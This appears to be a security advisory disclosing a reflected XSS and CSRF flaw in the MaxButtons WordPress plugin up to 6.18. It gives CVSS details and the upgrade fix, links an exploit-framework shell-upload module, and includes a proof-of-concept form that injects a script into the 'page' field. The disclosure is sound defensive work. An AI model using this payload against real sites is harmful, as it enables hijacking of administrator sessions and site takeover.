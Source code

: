```yaml
---
layout: single
title: MaxButtons <= 6.18 Reflected XSS
date: 2017-06-10
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - maxbuttons
  - reflected xss
excerpt: Due to a lack of CSRF mitigation and entity encoding in `includes/admin_header.php`, it is possible to execute scripts in the context of an admin user by including a script in the `page` field in a POST request.
---
```

## Homepage
[https://wordpress.org/plugins/maxbuttons/](https://wordpress.org/plugins/maxbuttons/)

## Overview
Due to a lack of CSRF mitigation and entity encoding in `includes/admin_header.php`, it is possible to execute scripts in the context of an admin user by including a script in the `page` field in a POST request.

## CVSS Score
4.8

## CVSS Vector
[(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C)](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C))

## Versions Affected
6.18 and below

## Solution
Upgrade  to version 6.19 or newer

## WordPress Exploit Framework Module
[exploit/xss/reflected/maxbuttons\_reflected\_xss\_shell\_upload](https://github.com/rastating/wordpress-exploit-framework/blob/development/modules/exploit/xss/reflected/maxbuttons_reflected_xss_shell_upload.rb)

## Proof of Concept
```xml
<form action="http://[target]/wp-admin/admin.php?page=maxbuttons-controller" method="post">
  <input name="page" type="text" value="&quot;&gt;&lt;script&gt;alert(document.cookie);&lt;/script&gt;&lt;div class=&quot;">
  <input type="submit" value="Submit">
</form>
```

## WPVDB-ID
[8831](https://wpvulndb.com/vulnerabilities/8831)
